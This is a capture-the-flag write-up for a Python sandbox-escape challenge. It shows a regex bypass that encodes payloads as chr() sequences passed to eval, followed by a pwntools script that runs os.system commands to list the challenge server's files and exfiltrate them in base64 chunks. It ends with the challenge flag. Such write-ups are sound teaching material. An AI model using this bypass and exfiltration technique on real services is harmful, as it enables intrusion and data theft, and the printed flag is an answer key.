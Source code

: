 # Krampus' Code Blocks (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

After connecting to the nc server. You will talk with Krampus.

Playing around with the game:

![alt text](2.png "Chall")

At the bottom. That looks exactly like python. From experience this is a sandbox escape.

I noticed eval was available, but most of the commands where blocked.

Translating payload to chr's we bypassed the regex and can send a arbitrary string to eval.

```
def convertstr(convert):
	output = ""
	for i in convert:
		output+= "chr(%d)+" % ord(i)
	return output[:-1]
```
Then we can send our payload as such:

![alt text](3.png "Chall")

No flag.txt... These files look like a minecraft server. Let's write a script to download all files.

```python
from pwn import *
import base64
import sys

def convertstr(convert, debug=False):
	if debug:
		print convert
	output = ""
	for i in convert:
		output+= "chr(%d)+" % ord(i)
	return output[:-1]

if len(sys.argv) == 2 and sys.argv[1] == "local":
	r = remote("0.0.0.0",2000)
else:
	r = remote("199.247.6.180",14000)

for i in range(5):
	r.readuntil("<You>:")
	r.sendline("1")


def dump():
	payload_search = convertstr("__import__('os').system('find -follow')")
	r.sendline("eval(%s)"%payload_search)
	r.readuntil("Krampus>: ")
	skip = ["./server.jar"]
	lines = r.readuntil("You>: ")[:-10].splitlines()
	print "Found %d files" % len(lines)
	for f in lines:
		print "Downloading file %s" % f
		if f in skip:
			print "Banned file... Skipping"
			continue
		if os.path.isfile("./minecraft/%s" % f):
			print "File already downloaded..."
			continue
		payloadchunksize = convertstr("__import__('os').system('cat ./%s | base64 -w 0 | wc -c')" % f)
		r.sendline("eval(%s)"%payloadchunksize)

		r.readuntil("Krampus>: ")

		chunk_size = (r.readuntil("You>: ")[:-9])
		print "SIZE: %s" % chunk_size
		if "Krampus stares back" in chunk_size:
			print "Found directory..."
			dirpath = "./minecraft/%s" % f
			if not os.path.exists(dirpath):
				os.mkdir(dirpath)
				print "Directory created"
			continue
		else:
			chunk_size = int(chunk_size)
		#This is the ugliest code i have ever seen. That's right. I wonder who wrote it
		chunk_ = range(1, chunk_size+1)
		n = 50000
		output = [chunk_[i:i+n] for i in range(0, len(chunk_), n)]
		print "Size of file is %d lines" % chunk_size
		counter = 1
		data = ""
		for i in output:
			diff = (i[-1]-i[0])+1
			print "Processing chunk [%d of %d]" % (counter,chunk_size)
			high = counter+diff
			payload = convertstr("__import__('os').system('cat %s | base64 -w 0 | cut -c%d-%d && echo stop')" % (f, counter,high))
			counter += diff+1
			r.sendline("eval(%s)" % payload)
			r.readuntil("Krampus>: ")
			data += r.readuntil("stop")[:-5]
		data = base64.b64decode(data)
		with open('minecraft/%s' % f, 'w') as the_file:
			the_file.write(data)
dump()
r.close
```

![alt text](4.png "Chall")

Running the server.jar with the following commands:

`java -Xmx1024M -Xms1024M -jar server.jar`

Connecting to the minecraft server we enter a map. And we have to search for the flag.

![alt text](flag.png "Chall")
![alt text](flag2.png "Chall")




And we get the final flag:

`X-MAS{M1N3CR4F7_4nd_Py7h0n_C0m3_7og3th3r_0n_Christmas}`
